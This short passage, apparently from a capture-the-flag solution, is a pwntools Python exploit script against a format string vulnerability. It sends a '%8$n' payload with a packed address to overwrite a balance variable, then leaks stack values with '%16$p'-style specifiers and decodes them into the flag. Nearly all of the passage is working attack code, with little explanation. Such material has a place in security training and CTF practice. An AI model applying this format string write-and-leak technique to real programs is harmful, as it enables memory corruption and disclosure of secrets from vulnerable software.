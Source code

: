 ```python
pay += '%8$n'     # Find the offset where address of bal is written to memory. 
pay += p64(bal)   # Write the address of bal to memory.
pay += p64(0)
p.sendline(pay)

p.recv()
p.sendline('2')

p.recv()
p.sendline('3')
p.sendline('%16$p %17$p %18$p %19$p %20$p %21$p')

p.recvuntil("Please give us your feedback!\n")
s = p.recvline()[:-1].split(' ')
flag = ''
for i in s:
  flag += p64(int(i, 16))
info("flag: %s"%flag[:-2])
p.interactive()
```
